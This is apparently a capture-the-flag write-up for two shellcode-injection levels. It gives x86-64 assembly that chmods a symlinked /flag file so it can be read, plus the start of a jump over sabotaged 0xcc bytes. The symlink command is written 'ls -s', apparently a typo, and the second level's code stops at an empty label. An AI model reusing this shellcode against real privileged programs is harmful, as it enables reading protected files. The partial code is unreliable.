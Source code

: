 This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.

This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output.
You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.

## 8
Task: Reading 0x12 bytes from stdin. 

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
mov esi,444
mov rax,90
syscall

```
```sh
ls -s /flag A
```

## 9
Task:
This challenge modified your shellcode by overwriting every other 10 bytes with 0xcc. 0xcc, when interpreted as an
instruction is an `INT 3`, which is an interrupt to call into the debugger. You must avoid these modifications in your
shellcode.

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push 0x41
push rsp
pop rdi
jmp JUMP

nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop

JUMP:
```